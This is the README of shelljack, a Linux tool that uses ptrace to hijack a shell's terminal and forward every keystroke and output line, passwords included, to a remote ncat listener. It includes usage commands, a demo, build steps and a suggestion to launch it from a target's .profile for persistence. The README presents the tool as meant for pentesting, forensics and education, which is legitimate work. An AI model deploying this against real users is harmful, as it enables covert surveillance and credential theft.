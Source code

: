 # shelljack #

_shelljack_ is a [computer surveillance](http://en.wikipedia.org/wiki/Computer_surveillance) tool designed to capture [Linux](http://en.wikipedia.org/wiki/Linux) [command-line](http://en.wikipedia.org/wiki/Command_line) interactions in real-time.

**What exactly is "shelljacking"?**

This is the term I use to describe a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). This technique embeds the attacker between the target user and their [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29). From this position the attacker is able to inspect and capture all [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but will also return the output from the command line as well. In addition to the data being captured, it is also forwarded to a [remote listener](http://en.wikipedia.org/wiki/Netcat) for analysis in real time. 

This embedded position allows the attacker to capture *all* of the traffic that crosses the terminal. *This includes child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of some Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that is completely legitimate, although often not well understood. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a ["sploit"](http://en.wikipedia.org/wiki/Sploit), it is a very handy tool designed to empower [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), [pentesters](http://en.wikipedia.org/wiki/Pentester), and educators.

**Is this a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ is a [user space](http://en.wikipedia.org/wiki/User_space) tool.

**Do I need to be root to use it?**

No. You need "appropriate permissions". This means that you will need the ability to execute code on the target host either as root or as the target user. 

**When would I ever need this?**

* As a forensic analyist, you can use _shelljack_ to perform surveillance on the target of your investigation (after you've recieved the appropriate authority to do so from the heads of your Security, Legal, and HR teams, of course.)
* As a pentester who has gained execution as a user, you can now shelljack that account for further reconnaissance and credential harvesting.
* As a sysadmin, or other educator, _shelljack_ is useful for publicly demonstrating the importance of sane file permissions as well as other system configuration issues.

**How does it work?**

_shelljack_ is a [malicious](http://en.wikipedia.org/wiki/Malware) [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses [ptrace](http://en.wikipedia.org/wiki/Ptrace) to insert itself between a shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Because _shelljack_ uses the Linux ptrace interface to inject assembly language [syscalls](http://en.wikipedia.org/wiki/Syscall) into a target process, nothing here is portable. That said, check out my other project, [<i>ptrace_do</i>](https://github.com/emptymonkey/ptrace_do). If I get around to supporting <i>ptrace_do</i> for other architectures, then porting _shelljack_ shouldn't be too hard.

**Please tell me more about this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

* ptrace is the debugging interface provided by the Linux kernel. It is a *very* powerful tool, and the aspiring hacker would do well to study it. The best introduction I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

* A solid understanding of [tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29) fundamentals is necessary to fully understand the Unix / Linux command line. The best tutorial on this topic is easily [The TTY demystified](http://www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Ncat](http://nmap.org/ncat/) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running the [tty](http://linux.die.net/man/1/tty) command in these examples to demonstrate which terminal the various commands are being run in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ ncat -k -l localhost 9999

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch _shelljack_ against the target shell:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

That was it! If we go back to the listener, we will now see all of the I/O come through the listener as it is typed into the target shell. For further evidence of this, lets examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It is now in place to collect the traffic and happily forward you a copy of everything it sees, including input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal at all. (e.g. passwords)

Also note, _shelljack_ was designed with the ability to attack the shell that launches it. This makes it ideal to call from the target's login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [<i>ptrace_do</i>](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping of Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone https://github.com/emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone https://github.com/emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone https://github.com/emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process. Note that this only affects child processes that exist at the time of the attack. New processes will inherit their parents (shelljacked) [file descriptors](http://en.wikipedia.org/wiki/File_descriptor).

# Similar Works #

While _shelljack_ was written independent of any other codebase, I did come across several other projects during my research that use similar techniques. These projects explore both ptrace code injection as well as terminal mangling. If this is an area that interests you, these projects are worth studying.

* [retty](http://pasky.or.cz/dev/retty/) is a tiny tool that lets you attach processes running on other terminals.
* [neercs](http://caca.zoy.org/wiki/neercs) allows you to detach a session from a terminal.
* [injcode](https://github.com/ThomasHabets/injcode) injects code into a running process.
* [reptyr](http://blog.nelhage.com/2011/02/changing-ctty/) takes a process that is currently running in one terminal, and transplants it to a new terminal.

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

